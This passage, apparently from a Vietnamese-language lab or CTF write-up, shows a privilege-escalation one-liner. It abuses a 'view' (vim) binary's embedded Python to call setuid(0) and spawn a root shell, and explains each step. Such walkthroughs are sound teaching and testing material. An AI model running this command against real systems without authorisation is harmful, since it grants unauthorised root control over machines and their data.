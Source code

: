         ![image.png](/img/image%209.png)
        
        ```bash
        /home/ubuntu/view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
        ```
        
        → `os.setuid(0)`  Thay đổi UID của tiến trình thành **0** (UID của người dùng **root**). 
        
        → `os.execl("/bin/sh", "sh", "-c", "reset; exec sh")` Giúp thay thế tiến trình hiện tại bằng một phiên shell tương tác (sh), cung cấp quyền root cho người dùng.
        
        → `reset` và `exec sh` sẽ giúp khởi chạy 1 shell mới
        
        ![image.png](/img/image%2010.png)
        
